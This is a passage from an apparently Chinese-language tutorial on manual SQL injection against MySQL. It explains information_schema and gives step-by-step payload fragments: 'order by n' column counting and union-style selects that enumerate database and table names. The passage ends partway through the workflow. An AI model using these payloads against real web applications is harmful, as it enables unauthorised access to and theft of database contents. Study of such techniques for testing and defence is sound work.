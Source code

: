 MySQL 5.0以上版本存在一个存储着数据库信息的信息数据库--**INFORMATION_SCHEMA** ，其中保存着关于MySQL服务器所维护的所有其他数据库的信息。如数据库名，数据库的表，表栏的数据类型与访问权限等。 而5.0以下没有。

**information_schema**

系统数据库，记录当前数据库的数据库，表，列，用户权限等信息

**SCHEMATA**

储存mysql所有数据库的基本信息，包括数据库名，编码类型路径等

**TABLES**

储存mysql中的表信息，包括这个表是基本表还是系统表，数据库的引擎是什么，表有多少行，创建时间，最后更新时间等

**COLUMNS**

储存mysql中表的列信息，包括这个表的所有列以及每个列的信息，该列是表中的第几列，列的数据类型，列的编码类型，列的权限，列的注释等

## 0x05 基本手工注入流程

要从select语句中获得有用的信息，必须确定该数据库中的字段数和那个字段能够输出，这是前提。

### 1. MySQL >= 5.0

### （1）获取字段数

```
order by n  /*通过不断尝试改变n的值来观察页面反应确定字段数*/
```

### （2）获取系统数据库名

在MySQL >5.0中，数据库名存放在information_schema数据库下schemata表schema_name字段中

```
select null,null,schema_name from information_schema.schemata
```

### （3）获取当前数据库名

```
select null,null,...,database()
```

### （4）获取数据库中的表

```
select null,null,...,group_concat(table_name) from information_schema.tables where table_schema=database()
```

或

```
select null,null,...,table_name from information_schema.tables where table_schema=database() limit 0,1
```
